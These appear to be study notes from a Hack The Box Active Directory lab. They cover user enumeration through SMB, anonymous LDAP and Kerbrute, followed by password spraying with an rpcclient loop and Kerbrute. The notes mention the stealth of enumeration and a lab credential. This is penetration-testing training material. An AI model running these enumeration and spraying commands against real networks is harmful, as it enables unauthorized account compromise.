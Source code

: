     ```bash
    z0mb34r@htb[/htb]$ crackmapexec smb 172.16.5.5 --users
    ```
    
- **Gathering Users with LDAP Anonymous Bind**
    
    **ldapsearch**
    
    ```bash
    z0mb34r@htb[/htb]$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
    ```
    
    **windapsearch**
    
    ```bash
    z0mb34r@htb[/htb]$ ./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
    ```
    
- **Enumerating Users with Kerbrute**
    - Only if we have no access at all from our position. We can try to validate AD accounts with a wordlist, and then try to spray for passwords
    - Using Kerbrute is stealthy when it enumerates valid AD accounts. But when you spray for passwords with it, it will generate failed Pre-Authentication Attempts, which count towards an account’s failed login count.
    - Kerbrute generates event ID [4768: A Kerberos authentication ticket (TGT) was requested](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4768). `This will only be triggered, and found out if Kerberos event logging is enabled via the Group Policy`
    
    ```bash
    z0mb34r@htb[/htb]$  kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
    ```

### With Credentials

- **crackmapexec with creds**
    
    ```bash
    z0mb34r@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
    ```

# Password Spraying

## Internal Password Spraying with Linux

**Rpcclient script**

```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

**Kerbrute**

```bash
z0mb34r@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
